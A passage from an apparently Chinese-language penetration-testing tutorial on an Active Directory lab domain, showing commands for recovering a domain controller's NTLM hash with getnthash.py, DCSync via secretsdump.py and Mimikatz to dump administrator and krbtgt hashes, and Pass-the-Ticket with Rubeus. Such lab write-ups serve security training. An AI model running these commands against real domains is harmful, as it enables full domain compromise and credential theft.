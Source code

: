 通过使用**PKINITtools**  
中的**getnthash.py**  
工具，提交一个 TGS请求，其中包含了**Privileged Attribute Certificate (PAC)**  
，该证书包含目标的NTLM哈希。然后，使用我们在之前请求 TGT 时获得的 AS-REP加密密来解密 PAC，从而获取目标的NTLM哈希。  
> python /opt/PKINITtools/getnthash.py -key 16950e24794e18ce18211c5ebf8ea22910b3854ffb9ce4c4ab0dcc8a5c390abe INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$  
  
  
![1744809629_67ffae9d0c564d1520b31.png!small?1744809630146](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BQDrRAxQHAMwRF6EYbJKaxFODaw8jo5fAGfMG6bOruOvYSw5vw7bXDA/640?wx_fmt=jpeg&from=appmsg "")  
### 步骤2.2  
  
然后，我们可以用这个哈希值,使用secretsdump.py**-hashes**  
，执行**DCSync**  
#### 使用域控制器DC01-NTLM哈希进行 DCSync  
> secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:7277f699a390220114d3571785d5d02d  
  
  
![1744810419_67ffb1b32faa0118c3de7.png!small?1744810420059](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BicO1kgyPk0KsUV8ouG3fWQf0sFxLicovH3RBeu3IiaWrR8bvibhT3fuEFQ/640?wx_fmt=jpeg&from=appmsg "")  
  
一样可以导出目标NTLM哈希  
### 方法三Pass-the-Ticket (PTT)   
  
当我们通过ntlmrelayx.py获取到base64编码的证书，我们可以在Windows的主机上使用该证书，利用Rubeus 工具来请求TGT票据，执行**Pass-the-Ticket (PTT)**  
攻击。  
### 使用DC01$账户申请 TGT 和执行PTT  
> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:<base64编码> /ptt  
  
  
![1744810601_67ffb269e5c74e243db27.png!small?1744810602547](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BHDhzaUpdQ2RnNLXfbwaHVfI2cpcZ1x1ApTETragjrL2u3hjPzFEtkg/640?wx_fmt=jpeg&from=appmsg "")  
  
然后，我们可以通过**klist**  
来确认票据是否在内存中。同样的，可以使用 Mimikatz 执行 DCSync 攻击。在这里，我们获取krbtgt帐户的NTLM哈希。  
### 使用 Mimikatz 执行 DCSync  
> lsadump::dcsync /user:inlanefreight\krbtgt  
  
  
![1744810851_67ffb36347ab5f91b73d5.png!small?1744810851780](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BK9AX19FjrZ4NzCZ01hibKl1GGsOVzmAibyV8YKCV6v2grOvMuicgkn72Q/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
